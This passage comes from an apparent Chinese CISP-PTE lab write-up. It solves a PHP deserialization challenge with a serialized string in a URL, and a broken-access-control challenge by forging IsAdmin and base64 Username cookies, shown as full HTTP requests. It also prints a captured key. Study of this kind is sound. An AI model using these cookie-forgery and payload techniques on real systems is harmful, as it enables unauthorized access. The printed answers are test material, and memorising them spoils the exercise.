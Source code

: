 通过代码看出只要传入的参数反序列化等于CISP-PTE，就会显示key

所以将CISP-PTE序列化后传入即可，注意后面的分号

序列化代码

```php
<?php
$str = "CISP-PTE";
$r= serialize($str);
echo $r;
?>
```

`http://150.158.27.164:84/start/vul.php?str=s:8:'CISP-PTE';`

#### 3.失效的访问控制-85

本题请求包

```http
GET /start/ HTTP/1.1
Host: 150.158.27.164:85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=dfs1fcpog8ia4np1ve7n0l0hpd; IsAdmin=false; Username=R3Vlc3Q%3D
Upgrade-Insecure-Requests: 1
```

关键在于cookie

username的值bash64解码为Guest

解题思路将`IsAdmin=False`改为`IsAdmin=true`,将username改为admin即可(注意admin的base64编码)

```http
GET /start/ HTTP/1.1
Host: 150.158.27.164:85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=dfs1fcpog8ia4np1ve7n0l0hpd; IsAdmin=true; Username=YWRtaW4=%3D
Upgrade-Insecure-Requests: 1

```

得到key

`key5:m9gbqjr6`

#### 4.文件包含-1083

本题同样过滤了一些文件包含的关键字
